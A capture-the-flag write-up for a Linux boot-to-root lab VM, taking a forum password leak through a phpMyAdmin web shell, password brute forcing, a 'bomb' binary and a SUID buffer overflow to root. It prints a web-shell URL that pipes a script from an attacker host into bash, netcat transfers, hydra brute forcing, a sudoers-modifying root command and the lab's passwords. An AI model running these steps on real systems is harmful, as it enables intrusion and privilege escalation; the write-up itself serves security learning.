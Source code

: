 *INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```
```nmap -T4 <Network>```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sV -sC -p- -T4 <TargetIP>```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

*EXPLOITATION*

![](./img/06-forum_post.png)

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

![](./img/09-RCE.png)

```https://10.0.2.5/forum/templates_c/rce.php?cmd=curl 10.0.2.15:9090/shell.sh | bash```


*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```
```ssh lmezard@<IP>```
```su lmezard```

![](./img/10-lmezard.png)

**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker
```nc <IP> <port> < fun``` in target system
```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```
```cat ft_fun/* | grep getme -A 3 | grep -v haha```
```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```
```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "LINK".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)
```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```
```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```
```id```

![](./img/11-root.png)